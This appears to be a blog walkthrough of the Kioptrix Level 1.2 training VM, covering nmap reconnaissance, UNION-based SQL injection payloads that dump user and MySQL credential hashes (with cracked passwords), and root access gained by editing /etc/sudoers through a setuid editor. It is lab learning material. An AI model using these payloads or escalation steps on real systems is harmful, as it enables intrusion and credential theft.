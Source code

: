 ```yaml
---
layout: post
title:  "Kioptrix: Level 1.2 (#3)"
date:   2017-04-01
summary: Kioptrix Level 1.2 (#3) walkthrough
---
```


### Setup
Download and unzip the vm, then mount the .vmdk file as storage in your vm config and setup your network settings. Note that this vm should auto detect using DHCP.

We also need to add the web apps hostname to hosts, this should be done after finding the host on the network.

	echo "192.168.56.102 kioptrix3.com" >> /etc/hosts


# Kioptrix: Level 1.2 (#3)
To start we need to find the host on the network, to do this I used nmap to do a ping scan on the subnet:

{% highlight python %}
nmap -sn 192.168.56.0/24

Nmap scan report for kioptrix3.com (192.168.56.102)
Host is up (-0.090s latency).
{% endhighlight %}

## Information gathering
Now we know the IP of the host we can use port scanning to see what services are running. With nmap we can also do some banner grabbing, version checking, OS detection and enumeration of services:

{% highlight python %}
nmap -sS -sV -O 192.168.56.102

Nmap scan report for kioptrix3.com (192.168.56.102)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
MAC Address: 08:00:27:B2:2A:A5 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

The result only shows 2 interesting services, ports 22 (ssh) and 80 (http).

## Web app
The web application is the next place to start gathering information from (its tech stack and functionality) then move on from there. From the nmap scan we know Apache 2.2.8 is running on Ubuntu with PHP 5.2.4-2. To assess the web app we will browse it and note its main functionality then give it a scan with Nikto.

* Gallery CMS
	queries database for photos and sort function
	http://kioptrix3.com/gallery/gallery.php?id=1
* Blog with comments
* Login (powered by lotuscms)
* Nikto scan
	+ Cookie PHPSESSID created without the httponly flag
	+ The X-XSS-Protection header is not defined. 
	+ The X-Content-Type-Options header is not set.
	+ OSVDB-3092: /phpmyadmin/changelog.php:
	+ /phpmyadmin/: phpMyAdmin directory found
	+ OSVDB-3092: /phpmyadmin/Documentation.html
* PHPMyAdmin (2.11.3deb1ubuntu1.3)
	Can login with username admin and a blank password (not full privileges)
	MySQL client version: 5.0.51a

From the information gathered we can see the main attack surface is the web app and its supporting components (Lotuscms and phpMyAdmin). We also have version numbers of several components. The first step is to identify any known vulnerabilities in the versions used then move onto the web app functionality.

phpMyAdmin 2.11.3  
There are a number of vulnerabilities in phpMyAdmin including a potential SQL injection but it requires create table functionality, the admin account doesn't seem to have privileges.

### SQL injection
The gallery app allows us to view images and details of those images, it also has a sort function that queries the db. Here we want to test for sql injection. To do this we supply unexpected syntax eg quotes to see what happens. Using ' we get a verbose error message, perfect.

	http://kioptrix3.com/gallery/gallery.php?id=1'

Returns the error:

>"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' order by parentid,sort,name' at line 1Could not select category"
This error message basically means we can modify the sql query and the app is vulnerable to injection.

Now we want to extract usernames and passwords from the db, to do this we need to use the union operator to combine the results from two queries into one set of results. The drawback of this is that the second query needs to contain the same number of columns as the first and the datatypes must also match. 

To find the number of columns that are in the query we simply add columns until we no longer get an error message.

	1 union select 1,2,3,4,5,6--

From here we can now extract useful data from the db in the string columns eg db name, version etc.

	1 union select 1,version(),3,4,5,6--

	version()	- 5.0.51a-3ubuntu5.4
	database()	- gallery 
	user()		- root@localhost

Now we have a query that works we want to extract usernames and passwords, to do this we need to find the table and column names. This can be done by looking up the metadata about the tables in the information schema.

	1 union select 1,table_name,column_name,4,5,6 from information_schema.columns--

Couple of tables are of interest the gallarific_users, dev_accounts and the user.

{% highlight sql %}
1 union select 1,username,password,4,5,6 from gallarific_users--

admin
n0t7t1k4

1 union select 1,username,password,4,5,6 from dev_accounts--

dreg
0d3eccfb887aabd50f243b3f155c0f85
loneferret
5badcaf789d3d1d09794d8f021f40f0e

1 union select 1,user,password,4,5,6 from mysql.user--

root
*47FB3B1E573D80F44CD198DC65DE7764795F948E
debian-sys-maint
*F46D660C8ED1B312A40E366A86D958C6F1EF2AB8
{% endhighlight %}

Now we have couple of hashes to crack, this can be done online or using a world list. 

### Password cracking
Using hash-identifier we can identify possible hash types, both the hashes from the dev_accounts table are MD5 and the hashes from the mysql.user table are MySQL4.1/MySQL5 / MySQL 160bit - SHA-1.

We can use an online rainbow table https://crackstation.net/ to identify the passwords from the hash.

	admin		n0t7t1k4
	dreg		Mast3r
	loneferret	starwars
	root		fuckeyou

We got root but for whatever reason can't ssh into the box with it, however it does work for phpmyadmin.

### Privilege escalation
We can ssh into the box using dreg and loneferret, dreg has no interesting files but loneferret has a couple (checksec.sh and CompanyPolicy.README). The checksec.sh bash script checks security properties of binaries, the company policy readme contains a message about using the command 'ht' for file editing.

>Hello new employee,  
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.  
DG  
CEO

However running the command produces an error:

	loneferret@Kioptrix3:~$ sudo ht
	Error opening terminal: xterm-256color.

After a quick search online we need to change an environment variable.

	export TERM=xterm

To start with lets check the security properties of ht.

	whereis ht
	ht: /usr/local/bin/ht

	./checksec.sh --file=/usr/local/bin/ht

	loneferret@Kioptrix3:~$ ls -l /usr/local/bin/ht
	-rwsr-sr-x 1 root root 2072344 2011-04-16 07:26 /usr/local/bin/ht

The bash script didn't find anything interesting, however after listing the directory we can see ht has setuid set. This means when we run the ht editor it will run with root privileges, and because ht is a file editor we can now edit files with root access. Now we want to give the loneferret user root privileges.

To do this we can edit the sudo users file `/etc/sudoers` and add `/bin/sh` to loneferret, then we can `sudo /bin/sh` to get a shell as root.

	sudo /bin/sh
	# id
	uid=0(root) gid=0(root) groups=0(root)

## Conclusion
The web app contains SQL injection which allows us to extract user names and passwords, these are then cracked and used to ssh into the box. The loneferret home folder contained a note requesting the use of ht to edit files. When run the binary runs as root so we are able to edit any files as if we were the root user.